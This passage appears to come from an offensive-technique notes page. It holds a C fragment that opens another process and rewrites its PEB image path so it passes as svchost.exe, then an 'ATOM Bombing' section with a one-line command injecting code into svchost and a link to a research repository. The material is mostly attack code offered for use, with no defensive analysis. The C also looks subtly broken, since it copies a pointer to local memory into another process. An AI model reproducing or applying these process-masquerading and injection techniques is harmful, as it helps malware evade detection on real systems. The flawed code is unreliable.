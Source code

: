 ```

    // Assuming you've already obtained the PID of the target process
    printf("Enter the PID of the target process: ");
    scanf("%d", &processID);

    // Open the target process
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processID);
    if (!hProcess) {
        printf("Failed to open target process.\n");
        return 1;
    }

    // Get the process basic information
    NTSTATUS status = NtQueryInformationProcess(hProcess, 0, &pbi, sizeof(pbi), &returnLength);
    if (status != 0) {
        printf("Failed to query process information.\n");
        CloseHandle(hProcess);
        return 1;
    }

    // Modify the ImagePathName to mimic svchost.exe
    UNICODE_STRING fakeImagePath;
    fakeImagePath.Buffer = L"C:\\Windows\\System32\\svchost.exe";
    fakeImagePath.Length = wcslen(fakeImagePath.Buffer) * 2;
    fakeImagePath.MaximumLength = (wcslen(fakeImagePath.Buffer) * 2) + 2;

    if (!WriteProcessMemory(hProcess, &pbi.ProcessParameters->ImagePathName, &fakeImagePath, sizeof(fakeImagePath), NULL)) {
        printf("Failed to modify ImagePathName.\n");
        CloseHandle(hProcess);
        return 1;
    }

    printf("Successfully reimaged the process.\n");

    // Cleanup
    CloseHandle(hProcess);
    return 0;
}
```


### ATOM Bombing

Using ATOM tables to inject code into svchost

```
atom_bomb.exe svchost.exe
```



https://github.com/BreakingMalwareResearch/atom-bombing
